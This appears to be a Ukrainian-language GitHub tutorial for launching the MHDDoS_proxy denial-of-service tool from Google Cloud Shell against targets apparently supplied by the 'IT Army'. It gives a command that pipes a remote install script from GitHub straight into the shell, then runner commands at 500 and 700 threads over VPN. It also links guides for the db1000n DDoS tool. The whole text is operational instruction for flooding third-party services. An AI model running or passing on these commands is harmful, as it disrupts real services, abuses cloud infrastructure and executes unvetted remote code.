 #   Все буде Україна! 💙💛

**Привіт друзі!**   

 **☁️ Cloud Shell** зараз працє в ***ефемерному режимі***. Це означає, що все створене під час цього сеансу видалиться разом з віртуальною машиною **після закінчення даного сеансу**.

Якщо з'єднання перервано не підключайтесь повторно бо вийдете з ***ефемерного режиму***, а **завантажте новий сеанс**, натиснувши кнопку розташовану нижче.

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://console.cloud.google.com/cloudshell/editor?cloudshell=true&shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)

## Давайте запустимо MHDDoS_proxy. 
З початку скопіюйте команду розташовану нижче та натисніть клавішу [ENTER] 👇
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/mhddos_proxy_install.sh)
```
### Чудово, процес пішов!
Якщо все працює без ***роз'єднань***, можна підвищити потужність. Для цього зупиніть процес натиснувши Ctrl+C, та запустіть команду зі збілшеним навантаженням розташовану нижче 👇
```bash
cd ~/ && cd mhddos_proxy && ./runner.sh python3 -t 500 --itarmy --vpn
```
або ще з більшим навантаженням 👇
```bash
cd ~/ && cd mhddos_proxy && ./runner.sh python3 -t 700 --itarmy --vpn
```
#### Для перевірки навантаження на процесор використаємо команду htop
Для цього додайте ще один термінал натиснувши "**+**" праворуч від заголовка працюючого терміналу, та запустіть наступну команду 👇
```bash
htop
```
##### ***Пропоную для ознайомлення:***
* Натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **«Death by 1000 needles» (db1000n)**.

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://console.cloud.google.com/cloudshell/editor?cloudshell=true&shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)
* Інструкція для початківців 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)
* Інструкція для більш досвідчених 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
